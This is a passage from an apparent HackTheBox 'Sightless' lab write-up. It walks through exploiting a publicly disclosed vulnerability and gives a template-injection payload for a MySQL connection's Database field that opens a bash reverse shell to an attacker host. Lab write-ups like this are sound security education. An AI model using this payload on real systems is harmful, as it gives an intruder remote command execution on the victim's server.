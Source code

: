 
Searching for known vulnerabilities in this version led to a publicly disclosed exploit:
[https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb
](https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb)

Based on this source I need to do few steps:
1. Navigate to **Connections -> Add Connection**.
![](/assets/blogimages/Writeups/Hackthebox/Sightless/sightless5.png)![](/assets/blogimages/Writeups/Hackthebox/Sightless/sightless6.png)
2. Select  **MySQL** as the driver
![](/assets/blogimages/Writeups/Hackthebox/Sightless/sightless7.png)
3. Enter the following payload in the **Database** field:

```
{% raw %}
{{ process.mainModule.require('child_process').exec('/bin/bash -c "bash -i >& /dev/tcp/ATTACKERIP/ATTACKERPORT 0>&1"') }}
{% endraw %}
```


![](/assets/blogimages/Writeups/Hackthebox/Sightless/sightless8.png)
